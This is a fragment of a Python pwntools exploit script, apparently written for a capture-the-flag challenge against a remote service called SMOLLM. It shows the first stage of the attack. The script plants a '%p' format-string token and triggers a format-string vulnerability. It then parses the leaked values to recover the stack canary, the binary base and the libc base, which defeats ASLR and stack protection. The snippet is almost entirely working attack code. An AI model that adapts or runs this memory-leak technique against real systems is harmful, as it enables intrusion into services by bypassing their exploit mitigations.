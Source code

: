 ```python

# ============================================================================
# CONNECTION
# ============================================================================
# For local testing:
# io = process('./smollm_patched')

# For remote:
io = remote("SMOLLM.flu.xxx", 1024)

log.info("Connected to target")

# ============================================================================
# STAGE 1: INFORMATION LEAK
# ============================================================================
log.info("=" * 70)
log.info("STAGE 1: LEAKING STACK VALUES")
log.info("=" * 70)

# Add format string token
log.info("Adding format string token...")
add_token(b"%p" * 6 + b"\x00")  # Token 106: "%p%p%p%p%p%p\x00"
log.success(f"Added format string token. Total tokens: {n_tokens}")

# Build payload to select token 106 repeatedly
log.info("Building leak payload...")
payload = b""
for i in range(25):
    payload += bytes([calc_input(n_tokens - 1)])

log.info(f"Payload length: {len(payload)} bytes")
log.info(f"Combinator after leak: {combinator}")

# Trigger format string vulnerability
io.sendlineafter(b'>', b'2')
io.sendlineafter(b'>', payload)

# Parse leaked addresses
log.info("Parsing leaked data...")
io.recvline()  # Skip first line
leak_line = io.recvline().strip().replace(b"(nil)", b"").decode()

# Critical parsing: split by '>', take [1], split by '0x', take [35:]
leak = leak_line.split('>')[1].split('0x')[35:]

log.success(f"Received {len(leak)} leak values")

# Extract critical values
binary_leak  = int(leak[0], 16)
canary       = int(leak[1], 16)
stack_leak   = int(leak[2], 16)
libc_leak    = int(leak[10], 16)

# Calculate base addresses
exe.address  = binary_leak - BINARY_OFFSET
libc.address = libc_leak - LIBC_OFFSET

log.success(f"Binary leak:  {hex(binary_leak)}")
log.success(f"Binary base:  {hex(exe.address)}")
log.success(f"Canary:       {hex(canary)}")
log.success(f"Stack leak:   {hex(stack_leak)}")
log.success(f"Libc leak:    {hex(libc_leak)}")
log.success(f"Libc base:    {hex(libc.address)}")
```